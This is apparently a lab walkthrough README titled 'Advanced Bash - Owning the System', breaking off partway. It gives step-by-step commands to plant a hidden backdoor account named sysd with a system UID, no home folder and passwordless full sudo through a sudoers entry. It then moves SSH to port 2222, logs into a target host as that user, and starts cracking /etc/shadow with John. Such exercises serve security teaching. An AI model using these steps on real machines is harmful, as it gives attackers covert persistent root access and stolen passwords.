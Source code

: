 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL
![see photo](/images/Picture2.png)  

    Test that sudo access works without your password: 
            • su sysd
            Then
            • sudo -l
![see photo](/images/Picture3.png)

## Step 2: Smooth Sailing

    1.	Edit the sshd_config file:
        • sudo nano /etc/ssh/sshd_config
![see photo](/images/Picture4.png)

## Step 3: Testing Your Configuration Update

    1. Restart the SSH service:
        • service ssh restart
    2. Exit the root account:
        • exit
    3. SSH to the target machine using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
    
## Step 4: Crack All The Passwords
    1. SSH back to the system using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
    2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
